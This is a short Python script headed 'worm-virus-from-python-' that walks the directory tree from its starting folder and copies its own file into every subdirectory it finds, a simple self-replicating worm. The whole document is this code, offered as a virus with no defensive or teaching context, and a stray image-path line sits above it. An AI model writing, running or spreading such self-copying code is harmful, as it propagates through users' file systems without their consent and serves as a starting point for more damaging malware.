 # worm-virus-from-python-
import os
import shutil

def copy_self(src, dst):
    shutil.copy2(src, dst)

def main():
    src = __file__
    for dirpath, dirnames, filenames in os.walk('.'):
        for dirname in dirnames:
            dst = os.path.join(dirpath, dirname, os.path.basename(src))
            copy_self(src, dst)

if __name__ == '__main__':
    main()

